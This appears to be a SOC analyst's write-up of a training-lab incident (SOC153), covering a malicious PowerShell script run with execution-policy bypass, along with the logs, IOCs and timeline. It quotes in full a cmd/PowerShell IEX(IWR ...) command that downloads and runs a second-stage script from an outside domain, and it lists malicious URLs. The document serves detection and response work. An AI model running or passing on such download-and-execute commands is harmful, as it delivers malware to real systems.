









# Incident 5 — SOC153: Suspicious PowerShell Script Execution & Malicious Remote Command

## 5.1 Incident Summary
- **Incident Name/ID:** SOC153 – Suspicious PowerShell Script Executed
- **Event ID:** 238
- **Severity:** Medium
- **Date/Time:** Mar 14, 2024, 05:23 PM
- **Category:** Malware / Unauthorized Script Execution
- **User Account:** LetsDefend
- **Affected Host:** Tony (Windows, IP: 172.16.17.206)

---

## 5.2 Alerts, Logs, and Evidence

### Alert Details
- Alert triggered due to execution of a **suspicious PowerShell script** (`payload_1.ps1`).
- Script executed from the **Downloads** directory.
- Execution policy was **bypassed**, indicating intentional or malicious execution.
- File hash associated with the script is flagged by **33/62 security vendors** as malicious.
- A second-stage script (`sd2.ps1`) was downloaded and executed via a remote command.

---

### Log Evidence

#### 1. Process Creation Logs
- PowerShell launched with:
  - **Execution Policy Bypass**
  - Script path: `C:\Users\LetsDefend\Downloads\payload_1.ps1`
- EventID: **1 (Process Create)**
- Hash: `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0`
- Original File Name: `payload_1.ps1`

#### 2. Remote Command Execution (EventID 4104)
Command executed:
"C:\Windows\system32\cmd.exe" /c "powershell -command IEX(IWR -UseBasicParsing 'https://kionagranada.com/upload/sd2.ps1')"

Indicates **download + execute** behavior (classic malware technique).

#### 3. Browser History
- User accessed:
  - `https://files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1`
- Confirms manual or automated retrieval of the malicious script.

#### 4. Proxy Logs
- Outbound connection allowed to:
  - `https://files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1`
- Process: `chrome.exe`
- Confirms script download via browser.

#### 5. URL Reputation
- `payload_1.ps1` URL flagged by **10/94 vendors**.
- `kionagranada.com/upload/beauty.exe` flagged by **9/98 vendors**.
- Associated with **SILENTBUILDER** (Conti subgroup dropper).

#### 6. File Reputation
- Hash flagged by **33/62 vendors**.
- Threat labels:
  - **trojan.powershell/boxter**
  - **azorult downloader**
  - **PowerShell trojan**

---

## 5.3 Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| **File Hash (SHA-256)** | db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0 |
| **Malicious URL** | https://files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1 |
| **Malicious URL** | https://kionagranada.com/upload/sd2.ps1 |
| **Malicious Domain** | kionagranada.com |
| **Affected Host IP** | 172.16.17.206 |
| **Threat Labels** | trojan.powershell/boxter, azorult, downloader |

---

## 5.4 Root Cause, Attack Vector, and Impact

### Root Cause
Execution of a **malicious PowerShell script** downloaded from an external, untrusted source.

### Attack Vector
- User or process accessed a malicious URL.
- PowerShell executed with **bypass** policy.
- Remote command executed to download a second-stage payload.

### Impact
- Potential credential theft (Azorult family).
- Possible second-stage malware execution.
- Risk of data exfiltration or persistence.
- **Impact Level:** Medium–High (mitigated due to detection).

---

## 5.5 Tools and Techniques Used
- SIEM Monitoring Dashboard
- Process Creation Logs (EventID 1)
- PowerShell Operational Logs (EventID 4104)
- Proxy Logs
- Browser History Analysis
- Threat Intelligence (URL & Hash reputation)
- VirusTotal (File & URL analysis)
- Case Management

---

## 5.6 Screenshots

---

## 5.7 Detailed Investigation Notes

### Timeline
- **16:40 PM** — User accessed benign Windows article.
- **17:22 PM** — User accessed malicious URL hosting `payload_1.ps1`.
- **17:22 PM** — Proxy logs confirm download of `payload_1.ps1`.
- **17:23 PM** — PowerShell executed script with bypass policy.
- **17:23 PM** — Remote command executed to download `sd2.ps1`.

### Analyst Observations
- Script hash strongly associated with **PowerShell trojans**.
- Behavior matches **downloader → second-stage execution** pattern.
- URL reputation confirms malicious infrastructure.
- No evidence of lateral movement yet.
- Early detection prevented deeper compromise.

### 5.8 Conclusion
This was a **true positive malware incident** involving malicious PowerShell execution and remote command activity.  
The attack chain was interrupted early, preventing further payload execution or data exfiltration.  
Recommend blocking associated domains, reinforcing user awareness, and monitoring the host for persistence attempts.

---
